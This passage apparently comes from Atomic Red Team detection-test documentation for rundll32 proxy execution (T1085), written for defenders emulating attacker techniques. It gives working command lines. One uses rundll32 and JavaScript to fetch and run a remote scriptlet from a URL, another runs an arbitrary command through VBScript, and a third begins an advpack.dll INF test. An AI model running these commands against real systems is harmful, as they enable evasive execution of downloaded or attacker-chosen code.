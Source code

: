 | Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1085/src/T1085.sct|

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();
```

<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command

Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.
Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/
Upon execution calc.exe will be launched

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```

<br/>
<br/>

## Atomic Test #3 - Rundll32 advpack.dll Execution

Test execution of a command using rundll32.exe with advpack.dll.
Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml
Upon execution calc.exe will be launched

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1085&#92;src&#92;T1085.inf|
